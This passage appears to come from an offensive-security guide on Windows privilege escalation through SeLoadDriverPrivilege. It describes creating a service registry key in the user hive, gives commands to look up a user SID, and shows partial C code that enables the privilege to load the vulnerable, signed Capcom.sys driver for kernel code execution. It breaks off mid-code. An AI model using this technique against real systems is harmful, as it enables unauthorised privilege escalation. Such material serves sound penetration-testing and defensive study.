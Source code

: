 * **ImagePath: **REG_EXPAND_SZ type value which specifies the driver path. In this context, the path should be a directory with modification permissions by the non-privileged user.
* **Type**: Value of type REG_WORD in which the type of the service is indicated. For our purpose, the value should be defined as SERVICE_KERNEL_DRIVER (0x00000001).

Therefore you could create a new registry in **`\Registry\User\<User-SID>\System\CurrentControlSet\MyService`** indicating in **ImagePath **the path to the driver and in **Type **the with value 1 and use those values on the exploit (you can obtain the User SID using: `Get-ADUser -Identity 'USERNAME' | select SID` or `(New-Object System.Security.Principal.NTAccount("USERNAME")).Translate([System.Security.Principal.SecurityIdentifier]).value`

```bash
PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
PCWSTR pPathSourceReg = L"\\Registry\\User\\<User-SID>\\System\\CurrentControlSet\\MyService";
```

The first one declares a string variable indicating where the vulnerable **Capcom.sys** driver is located on the victim system and the second one is a string variable indicating a service name that will be used (could be any service).\
Note, that the** driver must be signed by Windows** so you cannot load arbitrary drivers. But, **Capcom.sys** **can be abused to execute arbitrary code and is signed by Windows**, so the goal is to load this driver and exploit it.

Load the driver:

```c
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <ntsecapi.h>
#include <stdlib.h>
#include <locale.h>
#include <iostream>
#include "stdafx.h"

NTSTATUS(NTAPI *NtLoadDriver)(IN PUNICODE_STRING DriverServiceName);
VOID(NTAPI *RtlInitUnicodeString)(PUNICODE_STRING DestinationString, PCWSTR SourceString);
NTSTATUS(NTAPI *NtUnloadDriver)(IN PUNICODE_STRING DriverServiceName);

int main()
{
    TOKEN_PRIVILEGES tp;
    LUID luid;
    bool bEnablePrivilege(true);
    HANDLE hToken(NULL);
    OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

    if (!LookupPrivilegeValue(
        NULL,            // lookup privilege on local system
        L"SeLoadDriverPrivilege",   // privilege to lookup 
        &luid))        // receives LUID of privilege
    {
        printf("LookupPrivilegeValue error: %un", GetLastError());
        return FALSE;
    }
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;

    if (bEnablePrivilege) {
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    }

    // Enable the privilege or disable all privileges.
    if (!AdjustTokenPrivileges(
        hToken,
        FALSE,
```